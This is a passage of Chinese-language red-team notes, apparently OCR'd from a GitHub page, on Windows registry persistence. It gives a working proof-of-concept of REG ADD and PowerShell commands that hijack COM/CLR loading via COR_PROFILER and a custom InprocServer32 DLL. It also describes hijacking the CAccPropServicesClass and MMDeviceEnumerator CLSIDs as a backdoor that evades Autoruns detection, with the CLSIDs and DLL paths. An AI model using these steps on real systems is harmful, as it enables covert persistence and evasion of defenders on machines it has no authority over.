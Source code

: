 New-ItemProperty "HKCU:\\Environment\\" COR_PROFILER -value
"{11111111-1111-1111-1111-111111111111}" -propertyType string \| Out-Null

注册表环境变量POC:

REG ADD
"HKCU\\Software\\Classes\\CLSID\\{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}\\InprocServer32"
/ve /t REG_EXPAND_SZ /d "C:\\test\\calc.dll" /f

REG ADD "HKCU\\Environment" /v "COR_PROFILER" /t REG_SZ /d
"{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}" /f

REG ADD "HKCU\\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f

mmc gpedit.msc

**ATT&CK: Privilege Persistence-2).Windows利用注册表权限维-
CAccPropServicesClass以及MMDeviceEnumerator劫持**

同使用CLR劫持.Net程序的方法类似，也是通过修改CLSID下的注册表键值，实现对CAccPropServicesClass和MMDeviceEnumerator劫持，而系统很多正常程序启动时需要调用这两个实例，所以，这就可以用作后门来使用，并且，该方法也能够绕过Autoruns对启动项的检测。

dll命名规则

32位:api-ms-win-downlevel-1x86-l1-1-0._dl

64位:api-ms-win-downlevel-1x64-l1-1-0._dl

{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}对应CAccPropServicesClass

{BCDE0395-E52F-467C-8E3D-C4579291692E}对应MMDeviceEnumerator

64位及32位:

C:\\Users\\user1\\AppData\\Roaming\\Microsoft\\Installer\\{BCDE0395-E52F-467C-8E3D-C4579291692E}

![](media/64ce89452e6d8d6054573be7c82044a3.png)

![](media/bdd0f2c2e5c6d1d4b05af2f4a2044a1d.png)
